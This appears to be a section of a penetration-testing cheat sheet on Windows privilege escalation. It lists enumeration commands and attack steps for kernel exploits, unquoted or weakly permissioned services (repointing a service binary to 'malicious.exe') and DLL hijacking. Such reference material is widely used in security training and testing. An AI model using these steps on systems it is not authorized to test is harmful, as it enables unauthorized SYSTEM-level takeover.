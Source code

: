## Privilege Escalation

### Windows Privilege Escalation

#### 1. Kernel Exploits

```bash
# Check Windows version
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

# Search for exploits
searchsploit windows kernel

# Example: MS16-032 (Secondary Logon Handle)
# Download and compile exploit
# Execute to gain SYSTEM privileges
```

#### 2. Service Exploits

```powershell
# Unquoted service paths
wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

# Weak service permissions
accesschk.exe -uwcqv "Authenticated Users" *
sc qc <service_name>

# Modify service binary path
sc config <service_name> binpath= "C:\path\to\malicious.exe"
sc stop <service_name>
sc start <service_name>
```

#### 3. DLL Hijacking

```powershell
# Find DLL hijacking opportunities
# 1. Identify missing DLLs
procmon.exe  # Use Process Monitor

# 2. Check DLL search order
# Application directory
# System32
# System
# Windows directory
# Current directory
# PATH directories

# 3. Place malicious DLL in writable location
copy malicious.dll C:\Program Files\VulnerableApp\
```
